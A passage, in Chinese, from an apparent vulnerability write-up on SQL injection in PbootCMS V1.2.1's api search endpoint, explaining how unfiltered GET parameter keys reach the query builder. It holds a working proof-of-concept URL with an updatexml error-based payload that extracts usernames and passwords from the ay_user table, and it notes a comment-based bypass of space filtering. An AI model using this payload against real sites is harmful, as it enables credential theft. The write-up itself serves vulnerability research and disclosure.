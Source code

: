 这里就将重要的方法分析一下了，其他无关的就删除掉避免影响阅读。
这里接收了外部了外部所有的get参数然后就直接拼接进入\$where2这个数组
然后带入数据库进行getList方法查询，而底层是字符串拼接，过滤了value没有过滤key所以有注入

0x10 api模块注入
----------------

api模块的注入需要后端开启api功能，并且获得 api\_appid 与 api\_secret
才能注入。 或是说 开启了api功能并且关闭了API强制认证 这样也可以注入
所以较鸡助

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSsql注入/media/rId44.jpg)

0x10.1 接口注入一
-----------------

### 0x10.1.1 漏洞演示

    url:http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/search?1%3D1)and(updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1))--=1
    post：
        11=11

一定要post 要跑空post才能进流程

因为系统中会把 "空格"转为"\_" 所以使用/\*\*/绕过即可

### 0x10.1.2 漏洞讲解

路径：apps\\api\\controller\\CmsController.php 方法：search(
这里我把漏洞触发点发出来我们主要讲讲他即可

    // 数据接收
    foreach ($_GET as $key => $value) {
      if (! ! $value = get($key, 'vars')) {
        $where[$key] = $value;
      }
    }
    $data = $this->model->getList($acode, $scode, $num, $order, $where, $fuzzy);

从代码中看他会收集外部所有的 \$\_GET 带入 getList 进行入库查询 value
是我们无法控制所以无法注入的，可是key是我们可控制可注入的！！！跟进
getList方法 路径：PbootCMS-V1.2.1\\apps\\api\\model\\CmsModel.php
function getList(

    // 列表内容
        public function getList($acode, $scode, $num, $order, $where = array(), $fuzzy = true)
        {
            ...
            // 筛选条件支持模糊匹配
            return parent::table('ay_content a')->field($fields)
                ->where($where1, 'OR')
                ->where($where2)
                ->where($where, 'AND', 'AND', $fuzzy)
                ->join($join)
                ->order($order)
                ->page(1, $num)
                ->decode()
                ->select();
        }
